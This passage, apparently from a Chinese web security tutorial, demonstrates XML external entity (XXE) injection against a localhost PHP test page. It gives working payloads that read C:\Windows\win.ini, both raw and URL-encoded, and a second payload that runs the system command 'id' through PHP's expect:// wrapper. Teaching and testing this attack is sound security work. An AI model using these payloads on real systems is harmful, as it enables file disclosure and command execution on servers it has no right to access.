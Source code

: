 构造payload

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///C://Windows//win.ini">
]>
<root>
    <name>&file;</name>
</root>
```

进行URL编码

```
http://localhost:8081/xxe.php?xml=
%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22utf-8%22%3F%3E%0A%3C!DOCTYPE%20xxe%20%5B%0A%3C!ELEMENT%20name%20ANY%20%3E%0A%3C!ENTITY%20file%20SYSTEM%20%22file%3A%2F%2F%2FC%3A%2F%2FWindows%2F%2Fwin.ini%22%3E%0A%5D%3E%0A%3Croot%3E%0A%20%20%20%20%3Cname%3E%26file%3B%3C%2Fname%3E%0A%3C%2Froot%3E
```

![image-20240226164126422](10.xml%E6%B3%A8%E5%85%A5xxe/image-20240226164126422.png)

通过构造外部实体payload，在xml中`&file;`变成了外部文件`C:\Windows\win.ini`中内容，导致敏感信息泄露。

### 执行系统命令

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id">]>
<root>
    <name>&xxe;</name>
</root>
```
